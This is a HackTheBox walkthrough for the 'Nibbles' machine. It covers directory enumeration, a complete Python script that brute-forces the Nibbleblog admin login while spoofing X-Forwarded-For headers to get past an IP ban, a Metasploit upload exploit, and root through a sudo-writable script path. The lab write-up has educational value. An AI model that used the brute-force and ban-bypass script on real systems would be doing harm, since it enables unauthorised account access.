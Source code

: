 +++
title = "Nibbles - HackTheBox"
date = 2021-03-07T23:54:03+11:00
lastmod = 2021-03-07T23:54:03+11:00
tags = []
categories = []
imgs = []
cover = "https://www.hackthebox.eu/storage/avatars/344a8f99e8f7dddfed764f791e2731df.png"  # image show on top
readingTime = true  # show reading time after article date
toc = true
comments = true
justify = false  # text-align: justify;
single = true  # display as a single page, hide navigation on bottom, like as about page.
license = ""  # CC License
draft = false
+++

# Info

[Machine Profile](https://www.hackthebox.eu/home/machines/profile/121)

# Reconnaissance

A nmap scan shows us that ports 22 and 80 are open.

On port 80 runs a web server. By accessing it in web browser we can see:

![index](index.png)

So naturally we'll go to `/nibbleblog` and have a look.

![nibbleblog](nibbleblog.png)

Looks like that it's running a blog engine called Nibbleblog.

By running a gobuster enumeration we found some files and directories:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html,xxx,bak,old
[+] Timeout:        10s
===============================================================
2021/03/06 16:47:49 Starting gobuster
===============================================================
/sitemap.php (Status: 200)
/index.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/themes (Status: 301)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
```

Check `/README` file, we can find the version of Nibbleblog running on this server is `4.0.3`:

![version](version.png)

After a simple search we can find that Nibbleblog 4.0.3 has a file upload vulnerability, there's even a Metasploit module for it. But this requires a valid login credetial.

So I headed to `/admin.php`, and tried to brute force the password. Not long before I found that this machine has a blacklist mechanism which blocks IP addresses fail to login too many times:

![ip ban](ip-ban.png)

Then I thought that maybe this server is vulnerable for client address confusion with HTTP headers. I found [this manual](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c) that points out possible header names for this purpose. Next, I wrote a Python script to try a dictionary of passwords, with a random IP address for each request:

```python
import requests
import socket
import random
import threading
import time

class LockingCounter():
	def __init__(self):
		self.lock = threading.Lock()
		self.count = 0

	def increment(self):
		with self.lock:
			self.count += 1

def try_password(un, pw):
	ip = socket.inet_ntoa(random.randint(0,2**32).to_bytes(4, 'big'))
	headers = {'X-Originating-IP': ip, 'X-Forwarded-For': ip, 'X-Remote-Addr': ip}
	params = {'username': un, 'password': pw}
	r = requests.post('http://10.10.10.75/nibbleblog/admin.php', data=params, headers=headers)
	if 'Incorrect username or password.' not in r.text:
		print(params)
		print('Status code: ', r.status_code, r.text)

def iterate_dict(wordlist, counter):
	for pw in wordlist:
		try_password('admin', pw)
		counter.increment();

thread_count = 1
counter = LockingCounter()

passwords = open('/home/taylor/Documents/rockyou.txt', 'rb').read().split(b'\n')
total = len(passwords)

print('Total passwords: ', total)
print('Thread count: ', thread_count)

for i in range(thread_count):
	args = (passwords[i*total//thread_count: (((i+1)*total//thread_count) if i < thread_count - 1 else None)], counter)
	t = threading.Thread(target=iterate_dict, args=args)
	t.start()
	print('Thread %d started' %i)

while threading.active_count() > 1:
	print(counter.count, '/', total, ' done')
	time.sleep(60)

print(counter.count, '/', total, ' done')
```

At first I wanted to brute force with multiple threads. But later I found that this might break the server, makes the server only return `500` status code. So I finally fell back to a single thread.

After a short while, a password showed up:

![password](password.png)

The username and password are: `admin:nibbles`.

And we can now login to the admin dashboard of Nibbles:

![admin login](admin-login.png)

We can see on the right side many failed logins (made by me) from a lot of (fake) IP addresses ;)

# Intial foothold

Now that we had the valid credentials, we can use the Metasploit module:

![metasploit](metasploit-nibble.png)

And, here, we go:

![foothold](foothold.png)

And we can get the user flag:

![user home](user-home.png)


# Escalation

By running [`linpeas.sh`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) we notice something interesting:

![sudo command](sudo-command.png)

As user `nibbler`, we can run `/home/nibbler/personal/stuff/monitor.sh` as root without password with `sudo`. And there's no `personal` directory under `nibbler`'s home directory. This means we can simply create the `personal/stuff/monitor.sh` file under home directory that include any command we need. Easy root :)

![get root](get-root.png)

And we can get root's flag:

![root flag](root-flag.png)


